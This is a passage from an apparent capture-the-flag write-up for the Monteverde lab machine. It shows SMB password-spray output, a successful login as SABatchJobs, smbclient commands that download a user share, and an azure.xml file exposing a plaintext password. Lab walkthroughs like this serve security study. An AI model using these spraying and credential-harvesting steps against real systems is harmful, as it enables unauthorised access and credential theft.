 ```bash
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\svc-ata:mhope STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\svc-bexec:mhope STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\svc-netapp:mhope STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\dgalanos:mhope STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\roleary:mhope STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\smorgan:mhope STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\Guest:SABatchJobs STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:SABatchJobs STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\mhope:SABatchJobs STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK.LOCAL\SABatchJobs:SABatchJobs
```

Now we got a hit We can connect to the smb share and enumerate for files

## SMB share as SABatchJobs

```bash
smbclient //10.10.10.172/users$ -U SABatchJobs
Password for [WORKGROUP\SABatchJobs]:
Try "help" to get a list of possible commands.
smb: \> recurse on
smb: \> prompt off 
smb: \> mget *
getting file \mhope\azure.xml of size 1212 as mhope/azure.xml (0.7 KiloBytes/sec) (average 0.7 KiloBytes/sec)
```

We have a azure.xml file which is most likely to be a config file for some azure related service.

We can check the files content and look for any sensitive information 

```bash
cat azure.xml 
��<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
    <Props>
      <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
      <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
      <G N="KeyId">00000000-0000-0000-0000-000000000000</G>
      <S N="Password">4n0therD4y@n0th3r$</S>
    </Props>
  </Obj>
</Objs> 
```
